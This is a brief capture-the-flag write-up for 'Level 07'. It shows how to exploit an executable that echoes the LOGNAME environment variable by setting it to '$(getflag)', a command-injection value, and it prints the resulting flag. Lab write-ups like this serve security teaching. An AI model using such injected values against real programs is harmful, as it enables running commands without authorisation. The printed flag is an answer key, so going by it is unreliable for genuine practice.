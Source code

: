 # Level 07

This exercice is about exploiting an executable that prints what's inside the `LOGNAME` environment variable.

`export LOGNAME='$(getflag)'`
<br>
`./level07`

**Flag:** `fiumuikeil55xe9cu4dood66h`
